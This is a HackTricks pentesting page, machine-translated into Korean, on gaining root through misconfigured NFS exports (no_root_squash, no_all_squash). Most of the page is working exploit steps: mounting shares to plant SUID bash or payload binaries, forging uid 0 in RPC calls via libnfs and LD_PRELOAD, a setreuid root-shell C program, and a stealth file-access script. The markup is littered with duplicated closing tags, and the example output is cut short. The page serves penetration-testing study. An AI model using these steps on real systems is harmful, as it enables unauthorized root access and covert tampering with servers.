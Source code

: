 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


_read the_ **/etc/exports** _파일을 읽어보세요. 만약 **no\_root\_squash**로 설정된 디렉토리를 찾으면, 클라이언트로서 해당 디렉토리에 **접근**하고 마치 로컬 **root**인 것처럼 그 안에 **쓰기** 할 수 있습니다._

**no\_root\_squash**: 이 옵션은 기본적으로 클라이언트의 root 사용자에게 NFS 서버의 파일에 root로 접근할 수 있는 권한을 부여합니다. 이는 심각한 보안 문제를 초래할 수 있습니다.

**no\_all\_squash:** 이 옵션은 **no\_root\_squash**와 유사하지만 **비루트 사용자**에게 적용됩니다. 예를 들어, nobody 사용자로 쉘을 가지고 있고, /etc/exports 파일을 확인했으며, no\_all\_squash 옵션이 존재하고, /etc/passwd 파일을 확인한 후 비루트 사용자를 에뮬레이트하고, 해당 사용자로 suid 파일을 생성한 후(nfs를 사용하여 마운트) nobody 사용자로 suid를 실행하여 다른 사용자로 변환할 수 있습니다.

# Privilege Escalation

## Remote Exploit

이 취약점을 발견했다면, 이를 악용할 수 있습니다:

* 클라이언트 머신에서 해당 디렉토리를 **마운트**하고, **root로** 마운트된 폴더 안에 **/bin/bash** 바이너리를 복사한 후 **SUID** 권한을 부여하고, 피해자 머신에서 그 bash 바이너리를 실행합니다.
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **클라이언트 머신에서 해당 디렉토리를 마운트**하고, **루트로 복사하여** 마운트된 폴더 안에 SUID 권한을 악용할 컴파일된 페이로드를 넣고, **희생자** 머신에서 해당 바이너리를 **실행**합니다 (여기에서 일부 [C SUID 페이로드](payloads-to-execute.md#c)를 찾을 수 있습니다).
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Local Exploit

{% hint style="info" %}
Note that if you can create a **tunnel from your machine to the victim machine you can still use the Remote version to exploit this privilege escalation tunnelling the required ports**.\
다음 트릭은 파일 `/etc/exports` **가 IP를 나타내는 경우**에 해당합니다. 이 경우 **원격 익스플로잇을 사용할 수 없으며** 이 **트릭을 악용해야 합니다**.\
익스플로잇이 작동하기 위한 또 다른 필수 조건은 **`/etc/export` 내의 export가 `insecure` 플래그를 사용해야 한다는 것입니다**.\
\--_나는 `/etc/export`가 IP 주소를 나타내는 경우 이 트릭이 작동할지 확신하지 못합니다_--
{% endhint %}

## Basic Information

이 시나리오는 로컬 머신에서 마운트된 NFS 공유를 악용하는 것으로, 클라이언트가 자신의 uid/gid를 지정할 수 있게 해주는 NFSv3 사양의 결함을 이용하여 무단 접근을 가능하게 합니다. 익스플로잇은 NFS RPC 호출을 위조할 수 있는 라이브러리인 [libnfs](https://github.com/sahlberg/libnfs)를 사용합니다.

### Compiling the Library

라이브러리 컴파일 단계는 커널 버전에 따라 조정이 필요할 수 있습니다. 이 특정 경우에는 fallocate 시스템 호출이 주석 처리되었습니다. 컴파일 과정은 다음 명령어를 포함합니다:
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### Exploit 수행

이 익스플로잇은 권한을 루트로 상승시키고 셸을 실행하는 간단한 C 프로그램(`pwn.c`)을 만드는 것을 포함합니다. 프로그램은 컴파일되고, 결과 바이너리(`a.out`)는 suid root로 공유에 배치되며, RPC 호출에서 uid를 위조하기 위해 `ld_nfs.so`를 사용합니다:

1. **익스플로잇 코드 컴파일:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **익스플로잇을 공유에 배치하고 uid를 위조하여 권한 수정:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **익스플로잇을 실행하여 루트 권한 획득:**
```bash
/mnt/share/a.out
#root
```

## 보너스: NFShell을 통한 은밀한 파일 접근
루트 접근이 얻어진 후, 소유권을 변경하지 않고(NFS 공유와의 상호작용에서 흔적을 남기지 않기 위해) NFS 공유와 상호작용하기 위해 Python 스크립트(nfsh.py)가 사용됩니다. 이 스크립트는 접근하는 파일의 uid와 일치하도록 조정하여 권한 문제 없이 공유의 파일과 상호작용할 수 있게 합니다:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
실행 예:
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
